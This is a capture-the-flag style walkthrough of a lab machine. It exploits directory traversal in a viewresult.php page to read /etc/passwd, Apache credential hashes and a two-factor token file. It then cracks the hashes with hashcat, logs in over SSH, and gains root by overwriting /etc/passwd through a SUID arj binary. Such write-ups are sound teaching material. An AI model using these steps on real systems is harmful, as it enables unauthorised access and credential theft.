 # G00g

### Enumeration

```
http://192.168.145.144

Basic login:
admin:admin

In page source:
<!-- itemir/apache_2fa -->
```

https://github.com/itemir/apache\_2fa

```
POST /checkpost.php HTTP/1.1
...
job=ps

The response:
HTTP/1.1 302 Found
Location: /index.php?workon=am9iPXBz

am9iPXBz -> Base64 decoded job=ps

View Result -> /spool/viewresult.php?view=192.168.49.145_1639874661.txt
```

Directory traversal -> view parameter

```
- /viewresult.php?view=/etc/passwd

fox:x:1000:1000::/home/fox:/bin/sh

- /viewresult.php?view=/etc/apache2/apache2.conf

- /viewresult.php?view=/etc/apache2/sites-enabled/000-default.conf

AuthUserFile /opt/apache_2fa/apache_credentials

- /viewresult.php?view=/opt/apache_2fa/apache_credentials

admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$[REDACTED]
```

```
$ hashcat -m 1600 -w 4 -a 0 hash.txt ~/Desktop/rockyou.txt --force
admin:admin
fox:[REDACTED]

$ ssh fox@192.168.145.144
(fox@192.168.145.144) Verification code:?
```

[https://github.com/itemir/apache\_2fa/blob/master/tokens.json](https://github.com/itemir/apache\_2fa/blob/master/tokens.json)

```
/viewresult.php?view=/opt/apache_2fa/tokens.json

{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "[REDACTED]"
}
```

Firefox plugin -> [https://addons.mozilla.org/en-US/firefox/addon/auth-helper/](https://addons.mozilla.org/en-US/firefox/addon/auth-helper/)

Add -> Manual Entry -> Use this secret:"\[REDACTED]" to generate code.

### Initial Access

```
$ ssh fox@192.168.145.144
(fox@192.168.145.144) Verification code:
```

### PrivEsc

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arj

$ cd /tmp
$ cp /etc/passwd passwd
$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
$ arj a priv passwd
$ arj x priv.arj /etc/
→ Yes

$su ch
Password: pass123
```
